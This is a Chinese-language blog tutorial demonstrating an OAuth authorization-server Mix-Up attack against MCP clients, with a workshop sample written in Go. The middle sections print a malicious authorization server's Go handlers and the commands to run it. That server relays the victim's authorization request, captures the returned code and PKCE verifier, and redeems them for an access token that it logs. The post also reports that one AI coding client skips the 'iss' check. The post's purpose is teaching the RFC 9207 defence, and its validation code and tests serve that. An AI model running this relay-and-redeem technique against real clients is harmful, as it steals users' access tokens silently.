

前一篇 [《當 MCP Client 同時信任多個授權伺服器：用 RFC 9207 堵住 Mix-Up 攻擊》][prev]把「授權伺服器 Mix-Up 攻擊」的原理、為什麼 `state` 和 PKCE 都擋不住它、以及 [RFC 9207][rfc9207] 的 `iss` 參數為什麼是那塊缺角，講得很完整。但概念看懂是一回事，**親眼看到一顆合法的 authorization code 被攻擊者攔走、換成一顆真的 access token**，又是另一回事。

這篇是它的實戰版。我把 [go-training/mcp-workshop 的 `03-oauth-mcp/issuer-identification` 範例][sample]整套拆開來講：一個惡意授權伺服器（`evil-as`）、一個手工實作 OAuth 流程的 MCP client、一個誠實的 MCP resource server，三個真的能跑起來的 Go 程式。你可以親手把攻擊跑一遍，看著攻擊者的終端機印出 `STOLEN ACCESS TOKEN`；再加一個 `-defense` 旗標，看著同一個攻擊在造成損害前被 `iss` 比對擋下來。

[prev]: https://blog.wu-boy.com/2026/07/rfc9207-issuer-identification-mcp-mixup-zh-tw/
[rfc9207]: https://datatracker.ietf.org/doc/html/rfc9207
[sample]: https://github.com/go-training/mcp-workshop/tree/main/03-oauth-mcp/issuer-identification

<!--more-->

> **⚠️ 實測提醒（2026-07-18）**：我用**當前最新版的 Claude Code `2.1.214`** 實際測過——它在跑 MCP Server 的 OAuth 流程時**不會驗證 RFC 9207 的 `iss` 參數**。也就是說，本文示範的 Mix-Up 攻擊對它是成立的：只要它同時信任的授權伺服器裡有一台是惡意或被攻陷的，攻擊者就能像第五節「情境二」那樣，在**受害端毫無異狀**的情況下把 code 換成 token 偷走。**在把 Claude Code 接到你不完全信任的 MCP Server／授權伺服器之前，請務必留意這個風險。** 其他 MCP client（各家 CLI 與桌面 App）我還沒逐一實測，但基於「RFC 9207 是 client 端責任、多數實作尚未內建」這個共通的結構性缺口，我推測**它們很可能也有相同問題**——別預設你的 client 已經幫你擋好了。所幸官方 SDK 藍圖（[SEP-2468][sep]）已把 `iss` 驗證排進 beta，這個洞預期會在後續版本補上；在那之前，這是使用者得自己警覺的事。

## 一、範例的三個角色

整個攻擊需要四台服務同台演出。範例把前三個做成可執行的 Go 程式，第四個「誠實授權伺服器」直接接一台外部的 [Signet][signet]（跟隔壁 `dcr/`、`client-credentials/` 範例用的是同一台）：

| 程式 | 角色 | 預設位址 |
| --- | --- | --- |
| `mcp-client/main.go` | MCP OAuth client——手工刻的 Auth Code + PKCE，可選 RFC 9207 檢查 | callback `:8085` |
| `evil-as/main.go` | 被 client 誤信的**惡意授權伺服器** | `:9090` |
| `mcp-server/main.go` | 誠實的 MCP resource server，一個受 Bearer 保護的 `who_am_i` 工具 | `:8095` |
| Signet（外部） | **誠實授權伺服器**，攻擊者要冒充的對象 | `:8080` |

關係圖長這樣——注意 `evil-as` 和 Signet 是兩台**不同的** AS，而受害的 client **同時信任它們兩個**，這正是 Mix-Up 攻擊唯一需要的前提：



[signet]: https://github.com/go-signet/signet

## 二、最重要的前提：SDK 不會幫你做 RFC 9207

在拆攻擊之前，得先講清楚這份範例**為什麼要手工刻**。

前一篇提過，MCP 官方 SDK 的藍圖裡已經排入 RFC 9207 的 `iss` 驗證（[SEP-2468][sep]，2026-07-28 的 beta 才進去）。但這份範例釘的是**當下的 stable [go-sdk `v1.6.1`][gosdk]**——而在這個版本裡：

- `auth.AuthorizationResult` **只有 `Code` 和 `State` 兩個欄位，沒有 `Iss`**；SDK 根本不會把授權回應裡的 `iss` 交到你手上。
- `oauthex.AuthServerMeta` **也沒有** `authorization_response_iss_parameter_supported` 這個旗標。

```go
// go-sdk v1.6.1：auth/authorization_code.go
type AuthorizationResult struct {
    // Code 是授權伺服器回傳的授權碼。
    Code string
    // State 是授權伺服器回傳的 state。
    State string
    // 沒有 Iss——RFC 9207 在這個版本裡完全是 client 自己的責任。
}
```

這就是整份範例的教學核心：**在今天，RFC 9207 的防護是 client 端的責任，不是 SDK 免費送你的。** 所以這份 client 就跟隔壁 `dcr/` 範例自己刻 PKCE（因為 SDK 沒有 `resource=` 的擴充點）一樣，**自己從 callback 上把 `iss` 讀下來、自己去 metadata 抓那個旗標、自己做比對**。這個缺口本身，就是這堂課要你看清楚的東西。

[sep]: https://blog.modelcontextprotocol.io/posts/sdk-betas-2026-07-28/
[gosdk]: https://github.com/modelcontextprotocol/go-sdk/blob/v1.6.1/auth/authorization_code.go

## 三、攻擊方：`evil-as` 到底做了什麼

惡意授權伺服器只做三件事，對應三個 HTTP endpoint。我們逐一拆開。

### 3-1. 偽裝成一台正常的 AS（`/​.well-known`）

要讓 client「信任」它，`evil-as` 得先讓自己看起來像一台合規的 [RFC 8414][rfc8414] 授權伺服器。它公告自己的 `/authorize`、`/token`，而且——這是最狡猾的一步——**還宣稱自己支援 RFC 9207**：

```go
// evil-as/main.go：handleMetadata
func (c *config) handleMetadata(w http.ResponseWriter, _ *http.Request) {
    meta := map[string]any{
        "issuer":                           c.issuer,               // http://localhost:9090
        "authorization_endpoint":           c.issuer + "/authorize",
        "token_endpoint":                   c.issuer + "/token",
        "response_types_supported":         []string{"code"},
        "grant_types_supported":            []string{"authorization_code"},
        "code_challenge_methods_supported": []string{"S256"},
        // 故意宣稱支援 iss——這正是有防護的 client 會拿來抓包的那個旗標。
        "authorization_response_iss_parameter_supported": true,
    }
    w.Header().Set("Content-Type", "application/json")
    _ = json.NewEncoder(w).Encode(meta)
}
```

為什麼攻擊者要「宣稱支援」一個會揭穿自己的機制？因為它賭的是 client **不驗證**。宣稱支援讓它在沒防護的 client 眼裡毫無破綻；而面對有防護的 client，反正無論如何都會被擋，多這一句也沒差。這一步同時示範了 RFC 9207 的一個重點：**光靠 metadata 宣告不算數，真正保護你的是 client 拿 `iss` 去做的那一次比對。**

### 3-2. 核心手法：把使用者「轉交」給誠實 AS（`/authorize`）

Mix-Up 的精髓全在這個 endpoint。`evil-as` 的 `/authorize` **根本不認證任何人**——它把瀏覽器直接 302 轉導到誠實 AS（Signet）的 `/authorize`，而且**原封不動地把受害 client 的所有參數轉發過去**：

```go
// evil-as/main.go：handleAuthorize
func (c *config) handleAuthorize(w http.ResponseWriter, r *http.Request) {
    in := r.URL.Query()

    forward := url.Values{}
    for _, k := range []string{
        "response_type", "client_id", "redirect_uri", "scope", "state",
        "code_challenge", "code_challenge_method", "resource",
    } {
        if v := in.Get(k); v != "" {
            forward.Set(k, v)
        }
    }

    target := c.honestAuth + "?" + forward.Encode() // Signet 的 /authorize
    http.Redirect(w, r, target, http.StatusFound)
}
```

這幾行不起眼，但請仔細看它轉發了哪些欄位——`state`、`code_challenge`、`redirect_uri` 全都**照抄**。這正是前一篇那張表裡「`state` 無效、PKCE 無效」的**程式碼層級證據**：

- **`state` 為什麼擋不住？** 攻擊者轉發的是**受害者自己產生的** `state`。等一下 Signet 把 code 導回 client 時帶的也是這個 `state`，client 一比對——完全吻合。`state` 防的是 CSRF（別人的回應塞進你的 session），但這裡從頭到尾都是受害者自己發起的合法流程。
- **PKCE 為什麼擋不住？** 攻擊者轉發的是**受害者自己的** `code_challenge`。稍後 client 會拿**自己手上的** `code_verifier` 去兌換——只不過送錯了地方（送到 `evil-as`）。PKCE 綁定的兩端（challenge 與 verifier）始終在受害者手上、始終匹配，攻擊者完全不需要破解它，只需要「借道」。

Signet 收到這個請求時，看到的是一組**完全合法**的授權請求：合法的 `client_id`、註冊過的 `redirect_uri`（`http://127.0.0.1:8085/callback`，就是受害 client 的 callback）。使用者看到熟悉的 Signet 同意畫面、按下同意，Signet 就把一顆**真實有效的 authorization code**直接 302 送回受害 client 的 callback。

**關鍵在這裡**：這顆 code 從頭到尾沒經過 `evil-as`。攻擊者不需要攔截它——它接下來要靠的是 client「以為自己還在跟 `evil-as` 講話」這個誤判。

### 3-3. 收割：在 `/token` 攔下 code 並換成真 token

如果 client 沒做 RFC 9207 驗證，它會傻傻地把剛拿到的 code 送去它「以為的」token endpoint——也就是 `evil-as` 的 `/token`。竊取就發生在這裡：

```go
// evil-as/main.go：handleToken
func (c *config) handleToken(w http.ResponseWriter, r *http.Request) {
    _ = r.ParseForm()
    form := r.PostForm

    slog.Warn("CAPTURED authorization code at evil-as /token endpoint",
        "code", form.Get("code"),
        "code_verifier", form.Get("code_verifier"), // 連 PKCE verifier 都自己送上門
        "client_id", form.Get("client_id"),
    )

    // 在獨立 context 上兌換：只要 code 到手，就算受害 client 立刻斷線，
    // 竊取也要完成——攻擊者不依賴受害者保持連線。
    redeemCtx, cancel := context.WithTimeout(context.Background(), 30*time.Second)
    defer cancel()
    body, status, _ := c.redeemAtHonest(redeemCtx, form) // 把整份 form 重放到 Signet /token

    if status == http.StatusOK {
        var tok struct{ AccessToken, TokenType string }
        _ = json.Unmarshal(body, &tok)
        slog.Warn("STOLEN ACCESS TOKEN minted from captured code",
            "access_token", tok.AccessToken)
    }

    // 把 Signet 的原始回應原封不動回傳給受害 client，讓它渾然不覺。
    w.WriteHeader(status)
    _, _ = w.Write(body)
}
```

這裡有兩個值得停下來看的細節：

1. **連 `code_verifier` 都是受害者主動送上門的。** client 為了兌換，會把自己的 PKCE verifier 一起 POST 過來。攻擊者於是同時握有 `code` 和 `code_verifier`——PKCE 的兩把鑰匙。`redeemAtHonest` 只要把**整份 form 原樣重放**到 Signet 的 token endpoint 就能兌換成功，因為裡面該有的 `code`、`code_verifier`、`redirect_uri`、`resource` 一應俱全。
2. **它把 Signet 的回應原封不動轉回去。** `evil-as` 拿到真 token 後，還把 Signet 的成功回應照抄給受害 client。於是**受害者的終端機看起來一切正常**——拿到 token、連上 MCP、`who_am_i` 正常回應——完全沒有任何跡象顯示 token 已經外洩。這種「無聲的成功」正是 Mix-Up 最陰險的地方。

## 四、防守方：client 端的 RFC 9207 檢查

現在看被攻擊的一方。client 手工補上了 SDK 缺的那塊，核心是三個動作。

### 4-1. 從 callback 上把 `iss` 讀下來

SDK 不給 `iss`，那就自己讀。client 在 callback handler 裡直接從 query 取值：

```go
// mcp-client/main.go：callback handler
code := q.Get("code")
if code == "" {
    errCh <- errors.New("callback missing code")
    return
}
// SDK 的 AuthorizationResult 沒有 Iss，所以自己從 query 撈。
resultCh <- authResult{code: code, iss: q.Get("iss")}
```

### 4-2. 自己去 metadata 抓那個旗標

`oauthex.AuthServerMeta` 沒有 `authorization_response_iss_parameter_supported`，client 就自己再打一次 metadata 文件、只為了解析這一個 bool（任何錯誤都保守地當成 `false`）：

```go
// mcp-client/main.go：fetchIssParameterSupported（節錄）
var doc struct {
    IssParameterSupported bool `json:"authorization_response_iss_parameter_supported"`
}
if err := json.Unmarshal(body, &doc); err != nil {
    return false
}
return doc.IssParameterSupported
```

### 4-3. 逐位元組比對——整份範例的心臟

真正的防護就這一個函式。它把 RFC 9207 §2.4 的四種情況全部釘死：

```go
// mcp-client/main.go：validateIssuerResponse
func validateIssuerResponse(iss, expectedIssuer string, issParameterSupported bool) error {
    if issParameterSupported {
        if iss == "" {
            // AS 宣稱支援 iss，卻沒送 → 判定異常
            return fmt.Errorf("issuer identification required but authorization "+
                "response carried no iss (expected %q)", expectedIssuer)
        }
        if iss != expectedIssuer { // 逐位元組比對，RFC 9207 §2.4
            return fmt.Errorf("issuer mismatch: got %q want %q — aborting",
                iss, expectedIssuer)
        }
        return nil
    }
    // AS 沒宣稱支援 → 合規的 AS 就不該送 iss；送了就代表回應不可信。
    if iss != "" {
        return fmt.Errorf("authorization response carried iss %q but the AS does not "+
            "advertise issuer identification support — aborting", iss)
    }
    return nil
}
```

`expectedIssuer` 是 client 從**自己探索到的那台 AS 的 metadata**（`meta.Issuer`）拿到的可信基準；`iss` 是授權回應帶回來的值。攻擊發生時：

- client 一開始探索的是 `evil-as`，所以 `expectedIssuer = http://localhost:9090`。
- 但 code 是 Signet 導回來的，callback 上的 `iss = http://localhost:8080`。
- 兩者不符 → `validateIssuerResponse` 回傳錯誤 → client 在把 code 送出去之前就中斷。

而且這個比對放在**送出 code 之前**，這是關鍵的時序：

```go
// mcp-client/main.go：runAuthCodeFlow（節錄）
if cfg.defense {
    if err := validateIssuerResponse(res.iss, meta.Issuer, issSupported); err != nil {
        return nil, fmt.Errorf("RFC 9207 issuer validation failed: %w", err)
    }
    slog.Info("iss OK — issuer matches the discovered authorization server", "iss", res.iss)
} else {
    slog.Warn("skipping RFC 9207 validation (defense off) — posting code to the "+
        "discovered token endpoint regardless of who really issued it")
}
return exchangeCode(ctx, cfg, meta.TokenEndpoint, res.code, redirectURI, pkce.Verifier)
```

`-defense` 這個旗標控制的就是「要不要在送出 code 前跑這個檢查」。關掉它，client 就退化成前一篇說的那種「只憑自己 session 的記憶決定 code 該送哪」的脆弱行為。

## 五、動手跑三個情境

理解完程式碼，來把它跑起來。你需要一台跑在 `http://localhost:8080` 的 Signet 當誠實 AS，並在上面註冊一個 client，redirect URI 設為 `http://127.0.0.1:8085/callback`。因為全部在 `localhost`，SDK 的 loopback 例外會允許純 HTTP。

### 開場：先確認 Signet 真的送 `iss`

防守情境完全依賴誠實 AS 真的會在 redirect 帶 `iss`、並在 metadata 公告旗標。跑之前先確認：

```bash
curl -s http://localhost:8080/.well-known/oauth-authorization-server \
  | grep -o '"authorization_response_iss_parameter_supported":[^,}]*'
```

要看到 `"authorization_response_iss_parameter_supported":true`。**如果這裡是 `false` 或根本沒有，代表這個 Signet build 沒實作 RFC 9207，防守情境就不會觸發**——這也再次印證了前一篇的重點：`iss` 這條防線是 server 與 client **兩端都要到位**才成立。

### 先起兩台常駐服務

```bash
# 終端 1 — 誠實 MCP resource server（:8095）
go run ./03-oauth-mcp/issuer-identification/mcp-server \
  -auth-server http://localhost:8080 \
  -resource    http://localhost:8095/mcp

# 終端 2 — 惡意授權伺服器（:9090）
go run ./03-oauth-mcp/issuer-identification/evil-as \
  -issuer    http://localhost:9090 \
  -honest-as http://localhost:8080
```

`evil-as` 啟動時會先去探索 Signet 的 authorize/token endpoint，印出 `evil-as impersonation target discovered`。想讓它只記錄攔截、不真的去換 token，加 `-redeem=false`。

### 情境一：誠實路徑（防護開，一路走到工具）

client 直接探索 Signet，`iss` 吻合，code 在 Signet 兌換，最後成功呼叫到 MCP 工具：

```bash
go run ./03-oauth-mcp/issuer-identification/mcp-client \
  -auth-server http://localhost:8080 \
  -mcp-url     http://localhost:8095/mcp \
  -client_id   <你註冊的-client-id> \
  -defense
```

瀏覽器會打開、登入同意後，client 應印出 `iss OK — issuer matches the discovered authorization server`，接著 `connected` 到 MCP server 並回傳 `who_am_i` 的身分 claims。這是「一切正確」的基準線。

### 情境二：Mix-Up 攻擊，防護**關閉**（code 被偷）

這次讓 client 去探索 `evil-as`（`:9090`），而且**不加** `-defense`：

```bash
go run ./03-oauth-mcp/issuer-identification/mcp-client \
  -auth-server http://localhost:9090 \
  -mcp-url     http://localhost:8095/mcp \
  -client_id   <你註冊的-client-id>
```

登入同意後，去看**終端 2（`evil-as`）**，你會看到攻擊完整發生：

```text
evil-as /authorize hit — performing mix-up redirect to honest AS
CAPTURED authorization code at evil-as /token endpoint  code=... code_verifier=...
STOLEN ACCESS TOKEN minted from captured code  access_token=eyJ...
```

**這裡最該體會的是終端 3（client 自己）**：因為 `evil-as` 把 Signet 的回應原封不動轉回來、`-connect` 又預設開啟，受害 client 的終端機顯示一次**看起來完全成功的執行**——拿到 token、連上 MCP、印出正常的 `who_am_i` 結果。**受害者這一側完全沒有任何線索顯示 token 已經被偷。** 唯一的證據在攻擊者的終端機上。這種無聲的成功，就是為什麼 Mix-Up 危險、為什麼下一個情境重要。

### 情境三：Mix-Up 攻擊，防護**開啟**（client 中斷）

設定跟情境二一模一樣，只多加一個 `-defense`：

```bash
go run ./03-oauth-mcp/issuer-identification/mcp-client \
  -auth-server http://localhost:9090 \
  -mcp-url     http://localhost:8095/mcp \
  -client_id   <你註冊的-client-id> \
  -defense
```

這次 client 會印出：

```text
authorization response received at callback  expected_issuer=http://localhost:9090 received_iss=http://localhost:8080
RFC 9207 issuer validation failed: issuer mismatch: got "http://localhost:8080" want "http://localhost:9090" — aborting
```

然後**在接觸 `evil-as` 的 token endpoint 之前就退出**。回頭看終端 2，你只會看到那行 `/authorize` 轉導，**沒有** `CAPTURED authorization code`——攻擊者一無所獲。一個旗標、一次字串比對，攻擊就斷在造成損害之前。

## 六、不用起服務也能驗證：單元測試

`iss` 比對的四個分支，範例用一支 table-driven 測試釘住，不需要任何 server 就能跑：

```go
// mcp-client/issuer_test.go（節錄）
tests := []struct {
    name         string
    iss          string
    issSupported bool
    wantErr      bool
}{
    {"supported and iss matches expected",           expected,               true,  false},
    {"supported but iss missing",                    "",                     true,  true},
    {"supported but iss mismatched (the mix-up)",    "http://localhost:9090", true,  true},
    {"not supported but iss present",                expected,               false, true},
    {"not supported and iss absent (legacy AS)",     "",                     false, false},
}
```

```bash
go test ./03-oauth-mcp/issuer-identification/...
```

那行 `supported but iss mismatched (the mix-up)` 就是情境三的純函式版本——把整個攻擊濃縮成一次 `iss != expectedIssuer` 的判斷。

## 小結

這份範例把前一篇的抽象論證，變成了三段你可以親手觀察的具體行為：

- **`evil-as/handleAuthorize`** 那幾行「原封不動轉發 `state` 與 `code_challenge`」，就是 `state` 和 PKCE 為什麼結構上擋不住 Mix-Up 的鐵證——攻擊者不破解它們，只是借道。
- **`evil-as/handleToken`** 把 Signet 的回應原樣轉回，示範了攻擊為什麼「無聲」：受害者這側看到的是一次成功的登入，token 卻已經在攻擊者手上。
- **`validateIssuerResponse`** 一次逐位元組比對，就把「client 對來源的判斷」從「猜」變成「驗」，攻擊在 code 送出前就斷。

還有一個容易被略過、但對實作者最重要的結論：**在今天的 go-sdk `v1.6.1`，RFC 9207 是 client 的責任，SDK 不會替你做。** `AuthorizationResult` 沒有 `Iss`、`AuthServerMeta` 沒有那個旗標，你就得像這份範例一樣自己讀、自己抓、自己比。等官方 SDK 的 beta（SEP-2468）落地，這段手工程式碼會被內建取代——但在那之前，這個缺口就是你自己要補的洞。

別把這件事歸檔成「別人的 bug」——連**當前的 Claude Code `2.1.214`** 都還沒做這道驗證（我實測過，見開頭的提醒），所以這不是遙遠的假設，而是你現在接 MCP Server 就會暴露到的風險。如果你正在為 MCP 生態寫或選一台 client，我的建議很直接：**把這份範例 clone 下來，把三個情境各跑一遍。** 當你親眼看到 `STOLEN ACCESS TOKEN` 那行、再看到 `-defense` 讓它消失，你對「為什麼每一個授權回應都必須自己署名」這件事的理解，會比讀十遍 RFC 更牢。

完整程式碼與逐步 runbook 在這裡：<https://github.com/go-training/mcp-workshop/tree/main/03-oauth-mcp/issuer-identification>。

[rfc8414]: https://datatracker.ietf.org/doc/html/rfc8414
